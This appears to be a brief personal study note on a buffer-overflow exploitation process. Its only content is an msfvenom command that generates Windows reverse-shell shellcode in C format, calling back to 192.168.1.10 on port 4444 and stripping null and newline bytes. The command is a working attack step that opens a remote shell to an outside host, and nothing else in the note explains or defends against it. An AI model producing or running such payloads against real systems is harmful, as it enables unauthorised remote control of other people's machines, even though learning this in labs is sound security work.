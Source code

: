 # Bufferoverflow sequence/process





### Generating Shell code using msfvenom & removing bar chars

```
msfvenom --payload windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 --bad-chars '\x00\x0a' -f C
```
